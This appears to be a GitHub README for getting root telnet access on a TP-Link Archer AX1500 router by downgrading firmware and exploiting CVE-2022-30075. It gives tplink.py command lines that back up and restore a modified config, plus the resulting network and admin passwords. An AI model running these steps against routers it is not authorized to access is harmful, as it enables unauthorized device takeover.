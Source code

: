 # telnet-root on TP-Link Archer AX1500

### Downgrading firmware
You need to downgrade from your version of firmware(now it's 1.3.9) to 1.3.1.
Step by step. It's means that if you have 1.3.9 now, you need upload 1.3.8 to your router, then 1.3.4 and 1.3.1.

### Gettin telnet-root
Look CVE-2022-30075 folder.

You mey download your config from router and manualy correct ArcherAX1500v120220401131n/ori-backup-user-config.xml file.
```text
python3 tplink.py -t 192.168.1.1 -p password -b
```

Or

Upload config that activates telnet
```text
python3 tplink.py -t 192.168.0.1 -p password -r ./ArcherAX1500v120220401131n
```

Wait until router will reboot.
Then push the WPS botton on back panel.
Rightest green led on router must glow some time.

Wi-Fi net will be named "THIS-NETWORK!".

Password for network is "password".

Password for admin is "3plex4you".
```text
telnet 192.168.0.1
```